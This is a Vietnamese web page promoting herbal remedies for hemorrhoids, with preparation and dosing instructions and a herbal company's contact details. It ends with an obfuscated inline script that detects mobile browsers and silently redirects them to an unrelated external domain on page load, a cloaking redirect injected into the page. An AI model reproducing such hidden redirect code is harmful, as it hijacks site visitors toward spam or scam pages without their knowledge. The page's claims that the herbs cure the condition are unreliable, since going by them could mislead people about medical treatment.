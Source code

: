 Những cây thuốc nam hỗ trợ điều trị bệnh trĩ tại nhà

Rau diếp cá Rau diếp cá rất phổ biến trong bữa ăn của người Việt Nam. Bên cạnh đó, đây còn là một loại dược liệu tính hàn giúp thải độc, mát gan, sát khuẩn vết thương và dùng chữa viêm loét rất tốt. 
Những thành phần hóa thực vật trong cây diếp cá giúp hỗ trợ điều trị bệnh trĩ gồm có: Quercetin – Một alkaloid có hoạt tính chống oxy hóa, giúp hạn chế tình trạng phình tĩnh mạch hậu môn. Decanoyl acetaldehyd có tác dụng kháng viêm và ngăn chặn bội nhiễm ở bệnh nhân trĩ ngoại. 
Cách thực hiện bài thuốc trị bệnh trĩ với rau diếp cá: Rửa sạch, để ráo rồi giã nát. Thêm nước lạnh, chút muối. Lọc riêng phần bã và phần nước, dùng nước rửa hậu môn còn bã thì đắp lên búi trĩ sa và băng lại trong nhiều giờ. Mỗi ngày thực hiện 1 lần cho đến khi khỏi bệnh. 
Ngoài ra, trong bữa ăn hàng ngày có thêm rau diếp cá ăn kèm cũng sẽ giúp bạn nhuận tràng, cải thiện tình trạng táo bón và ngăn ngừa bệnh trĩ.

Dùng rau sam hỗ trợ điều trị bệnh trĩ Cây thuốc nam trị bệnh trĩ: Rau sam Rau sam có vị chua tính mát, tác dụng diệt khuẩn tốt và không độc nên có thể tận dụng để trị táo bón và trĩ nội, trĩ ngoại. Cách thực hiện: Lấy 500g rau sam rửa sạch và để ráo. Thêm 2 lít nước, đun sôi trong 10 phút.
Lấy nước đã nấu đi xông hậu môn cho đến khi hết nóng, sau đó lấy nước này rửa búi trĩ sa để giảm đau. Thực hiện 2 lần/ngày. Phần rau được luộc chín, có thể vớt ra ăn.

Cây thuốc nam hỗ trợ điều trị bệnh trĩ: Hoa hòe Theo dân gian, hoa hòe là một trong những cây thuốc nam chữa bệnh trĩ hiệu quả bởi có vị đắng, tính bình, tác dụng thanh nhiệt, lương huyết, chỉ huyết và ngăn ứ huyết ở tĩnh mạch trực tràng.
Ngoài ra, thành phần rutin trong hoa hòe cũng được khoa học chứng minh có tác dụng tăng cường sức bền của thành mạch, nhờ đó cải thiện tình trạng phình tĩnh mạch hậu môn – trực tràng, cũng như giảm sưng đau cho người bệnh trĩ. 
Cách dùng hoa hoè như cây thuốc nam trị bệnh trĩ: Lấy trắc bách diệp, hoa hòe, chỉ xác và kinh giới tuệ mỗi vị 12g. Đem tán bột mịn. Mỗi lần dùng lấy khoảng 8g hỗn hợp bột trên pha với nước ấm để uống. Dùng mỗi ngày 2-3 lần cho đến khi khỏi. Hoặc bạn cũng có thể: Dùng 60 g hoa hòe, rửa sạch, để ráo nước sắc với 300ml nước, đun lửa nhỏ đến khi cạn còn 100ml. Gạn ra uống đều đặn 2 lần trong ngày.

CÔNG TY TNHH THẢO DƯỢC XANH BA MIỀN

Địa chỉ: Số 86 KĐT Đồng Mai, Phường Đồng Mai, Hà Đông, Hà Nội

Điện thoại: 0852528888

Email: cayxanhbamienhanoi@gmail.com

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "http://www.tailocqualon.click/thuy",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>

